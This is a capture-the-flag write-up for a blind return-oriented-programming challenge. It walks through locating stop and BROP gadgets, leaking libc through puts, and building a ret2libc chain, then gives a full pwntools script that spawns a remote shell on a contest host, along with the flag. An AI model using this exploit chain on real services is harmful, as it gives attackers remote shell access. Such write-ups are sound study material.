 # Blind

## Challenge

We are given an IP address and port, but no binary or libraries.

When connecting, we are given a prompt and allowed to send a line to the server.
The server will normally respond with a string, then end the connection.

## Solution

This is a fairly standard blind rop challenge.

We first find the buffer size through trial and error, so we know the offset at which the return address is stored.

We can be somewhat confident that PIE is disabled and the base address is the standard 0x400000 for 64-bit binaries or 0x8048000 for 32-bit binaries, so we can test addresses starting from these points.
We are looking for an address that will not cause us to immediately segfault, so we can use this as boolean feedback in later stages.

Once we have this "stop gadget", we want to find the "brop gadget".
This is a gadget that pops 6 values from the stack into specific registers, then returns.
The gadget is useful because it can be used at different offsets to act as a number of other gadgets, such as `pop rdi; ret;`.
It is also useful because it is very unlikely to find another gadget that pops 6 values and returns, meaning that we can be fairly confident that we have found the correct gadget if we see this behaviour.

To find the gadget, we return to the address we wish to test, followed by 6 dummy addresses, then 2 stop gadgets.
The 2 stop gadgets allow us to determine if we have successfully popped all 6 dummy values from the stack.

Once we have found the brop gadget, we can search for a function that allows us to leak memory at a given address.
This is usually a standard printing function, such as `printf` or `puts`.
We can use brop+9 to create a `pop rdi; ret;` gadget.
A good value for RDI when testing for a leaking function is 0x400000 for 64-bit binaries, as we know we can expect to see the ELF header if we reach our target function.

We also need an address near the start of normal execution, such as the start of main, so we can access the vulnerable portion of the binarya gain.
This allows us to use a second ropchain after we have leaked memory.

With a leaking function, we can proceed to determine the libc address by leaking GOT entries.
We can determine what the GOT symbols should be by testing these values.

The libc turned out to be fairly rare, it was not found on most of the libc databases we searched, but it was available [here](https://libcdb.konwur.de/a92373dd129eaecb269c1ecb006f2515).

With all these pieces, we can construct a ret2libc payload to spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 152.96.7.43 --port 1337
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './path/to/binary'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '152.96.7.43'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

libc = ELF("libc-2.31.so")

# newline terminated
# crashes on 0x49 bytes

stop = 0x401028
main = 0x401175
brop = 0x40124a
leak = 0x401028

# dump binary

"""
current_addr = 0x400000

f = open('vuln', 'wb')
while True:
    print("*** READING {} ***".format(hex(current_addr)))
    if b'\n' in pack(current_addr):
        current_addr += 1
        f.write(b'\0')
        continue
    io = start()
    payload = flat({
        0x48: [
            brop+9,
            current_addr,
            leak,
            ],
        })
    io.sendlineafter(b"Can you see me?\n", payload)

    try:
        res = io.recv(timeout=4)
        current_addr += len(res)
        res = res[:-1] + b'\x00'
        print(res)
        f.write(res)
        f.flush()
        io.close()
    except:
        io.close()
        break
f.close()
"""

io = start()
io.sendlineafter(
    b"Can you see me?\n",
    flat({0x48: [brop+9, 0x404018, leak, main]}),
)

dump = unpack(io.recvuntil(b'\n', drop=True).ljust(8, b'\0'))
libc.address = dump - libc.sym['puts']
io.info("LIBC : " + hex(libc.address))
print(hex(dump))

# puts at 0x84420

rop = ROP(libc)
rop.raw(rop.ret)
rop.system(next(libc.search(b'/bin/sh')))
print(rop.dump())

io.sendlineafter(
    b"Can you see me?\n",
    flat({0x48: rop.chain()}),
)

io.interactive()
# io.sendline(flat({0x48: [brop+9, 0x400000, dump]}))
# io.interactive()
```

## Flag

```
HL{9e9d30cf-3c91-4e06-8f38-8ae18e86aff8}
```

